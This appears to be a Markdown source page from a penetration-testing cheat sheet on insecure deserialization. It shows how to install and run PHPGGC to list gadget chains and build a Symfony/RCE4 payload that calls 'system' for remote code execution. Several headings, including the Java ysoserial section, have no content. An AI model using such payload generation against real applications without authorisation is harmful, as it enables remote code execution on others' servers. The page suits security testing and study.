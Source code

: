 ```yaml
---
title: Insecure Deserialization
description: Insecure deserialization is when user-controllable data is deserialized by a website. This potentially enables an attacker to manipulate serialized objects in order to pass harmful data into the application code.
badge: Web
---
```



## PHP

### PHP's Serialized objects format

### PHPGGC

PGP Generic Gadget Chains (PHPGGC)

#### Installation

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

Simply clone the repo, build the image and tag it like you want:
```bash
git clone "https://github.com/ambionics/phpggc.git" {{ tmp-dir /tmp/phpgcc }}
docker build -t {{ image-tag phpggc }} {{ tmp-dir /tmp/phpgcc }}
```


</template>
<template v-slot:cli>

> PHP >= 5.6 is required to run PHPGGC.
```bash
git clone https://github.com/ambionics/phpggc.git phpgcc
```
The executable will be at `${PWD}/phpgcc/phpgcc`. It is advisable to add it to your path

</template>
</smart-tabs>




#### Usage
You can list the available gadgets with phpggc -l:

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

```bash
docker run --rm {{ image-tag phpggc }} -l
```

</template>
<template v-slot:cli>

```bash
phpggc  -l
```

</template>
</smart-tabs>


Usually this gadget chains ask you to specify a function to be called and arguments. Typically you will be going for RCEs, so here is an example using the `system` function:

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

```bash
docker run --rm {{ image-tag phpggc }} -b "Symfony/RCE4" "system" "{{ payload id }}" | clip.exe
```

</template>
<template v-slot:cli>

```bash
phpggc -b "Symfony/RCE4" "system" "{{ payload id }}" | clip.exe
```

</template>
</smart-tabs>



## Java

### ysoserial

### Using custom gadget chains
